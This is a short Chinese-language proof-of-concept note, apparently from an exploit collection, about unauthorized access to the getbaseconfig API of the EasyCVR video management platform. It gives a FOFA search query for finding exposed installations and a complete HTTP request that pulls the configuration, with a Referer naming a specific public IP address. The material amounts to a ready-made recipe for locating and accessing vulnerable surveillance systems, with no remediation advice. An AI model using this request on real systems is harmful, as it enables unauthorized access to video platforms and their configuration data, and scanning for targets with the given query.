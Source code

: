 # EasyCVR-视频管理平台getbaseconfig接口未授权访问

EasyCVR视频管理平台，作为TSINGSEE青犀视频旗下的一款重要产品，是一款功能强大的视频融合+AI智能分析网关平台。平台基于分布式、负载均衡等流媒体技术，提供广泛兼容、安全可靠、开放共享的视频综合服务。它支持多协议的设备视频接入、采集、AI智能检测、处理、分发、管理等服务，并具备轻量化接入、传输、处理与分发能力，可实现一站式视频融合共享管理。支持RTSP、RTMP、GB28181、GB35114、海康Ehome、大华SDK、海康SDK等多种协议的视频设备接入，兼容市面上几乎所有视频终端。

FOFA: 

```plain
title="EasyCVR"
```

GET /api/v1/getbaseconfig HTTP/2
Host: 
Cookie: token=-RDgCfFNR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://122.225.84.166:4443/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

![image-20250210111616195](images/image-20250210111616195.png)




